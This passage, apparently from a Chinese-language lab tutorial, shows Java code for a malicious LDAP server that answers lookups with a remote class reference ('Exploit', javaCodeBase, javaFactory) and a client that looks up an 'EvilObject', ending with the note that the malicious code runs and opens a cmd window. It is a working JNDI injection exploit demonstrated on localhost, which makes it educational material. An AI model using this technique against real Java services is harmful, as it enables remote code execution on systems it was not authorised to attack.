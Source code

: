 ```java
            System.out.println("Send LDAP reference result for " + base + " redirecting to " + turl);
            e.addAttribute("javaClassName", "Exploit");
            String cbstring = this.codebase.toString();
            int refPos = cbstring.indexOf('#');
            if ( refPos > 0 ) {
                cbstring = cbstring.substring(0, refPos);
            }
            e.addAttribute("javaCodeBase", cbstring);
            e.addAttribute("objectClass", "javaNamingReference");
            e.addAttribute("javaFactory", this.codebase.getRef());
            result.sendSearchEntry(e);
            result.setResult(new LDAPResult(0, ResultCode.SUCCESS));
        }
    }
}
```

### LadpClient

```java
package jndi_labs2;

import javax.naming.Context;
import javax.naming.InitialContext;
import javax.naming.NamingException;

public class LdapClient {
    public static void main(String[] args) throws Exception{
        try {
            Context ctx = new InitialContext();
            ctx.lookup("ldap://localhost:1234/jndi_labs2.EvilObject");
            String data = "This is LDAP Client.";
        }
        catch (NamingException e) {
            // TODO Auto-generated catch block
            e.printStackTrace();
        }
    }
}
```

先运行LadpServer，再运行LadpClient，结果如下，恶意代码被执行，弹出了cmd窗口。
